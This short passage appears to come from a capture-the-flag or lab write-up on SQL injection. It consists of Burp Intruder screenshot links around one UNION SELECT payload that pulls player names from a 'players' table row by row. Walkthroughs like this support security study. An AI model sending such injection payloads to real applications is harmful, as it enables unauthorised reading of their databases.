 ![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_db_tables_columnpng.png)

```bash
' union all select player from players limit 1 offset 0-- -
```

![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_players_arg.png)